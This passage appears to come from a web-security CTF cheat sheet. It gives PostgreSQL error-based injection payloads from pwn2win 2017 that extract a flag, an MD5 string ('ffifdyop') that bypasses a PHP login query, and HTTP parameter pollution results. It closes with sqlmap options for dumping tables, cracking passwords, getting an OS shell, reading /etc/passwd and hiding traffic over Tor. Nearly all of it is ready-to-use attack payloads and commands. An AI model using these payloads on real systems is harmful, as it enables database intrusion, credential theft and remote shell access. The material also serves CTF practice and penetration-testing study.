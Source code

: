 HQL injection example (pwn2win 2017)

- ```order=array_upper(xpath('row',query_to_xml('select (pg_read_file((select table_name from information_schema.columns limit 1)))',true,false,'')),1)```
    - Output: `ERROR: could not stat file "flag": No such file or directory`

- ```order=array_upper(xpath('row',query_to_xml('select (pg_read_file((select column_name from information_schema.columns limit 1)))',true,false,'')),1)```
    - Output: `ERROR: could not stat file "secret": No such file or directory`
- `order=array_upper(xpath('row',query_to_xml('select (pg_read_file((select secret from flag)))',true,false,'')),1)`
    - Output: `ERROR: could not stat file "CTF-BR{bl00dsuck3rs_HQL1njection_pwn2win}": No such file or directory`


## SQL Injection with MD5

- `$sql = "SELECT * FROM admin WHERE pass = '".md5($password, true)."'";`
- ffifdyop
    - md5: `276f722736c95d99e921722cf9ed621c`
    - to string: `'or'6<trash>`

## HTTP Parameter Pollution

- `id=1&id=2&id=3`
    - ASP.NET + IIS: `id=1,2,3`
    - ASP + IIS: `id=1,2,3`
    - PHP + Apache: `id=3`

## SQLmap

- https://github.com/sqlmapproject/sqlmap/wiki/Usage
- Usage
    - `python sqlmap.py -u 'test.kaibro.tw/a.php?id=1'`
        - 庫名: `--dbs`
        - 表名: `-D dbname --tables`
        - column: `-D dbname -T tbname --columns`
        - dump: `-D dbname -T tbname --dump`
            - `--start=1`
            - `--stop=5566`
        - DBA? `--is-dba`
        - 爆帳密: `--passwords`
        - 看權限: `--privileges`
        - 拿shell: `--os-shell`
        - interative SQL: `--sql-shell`
        - 讀檔: `--file-read=/etc/passwd`
        - Delay時間: `--time-sec=10`
        - User-Agent: `--random-agent`
        - Thread: `--threads=10`
        - Level: `--level=3`
            - default: 1
        - `--technique`
            - default: `BEUSTQ`
        - Cookie: `--cookie="abc=55667788"`
        - Tor: `--tor --check-tor --tor-type=SOCKS5 --tor-port=9050`
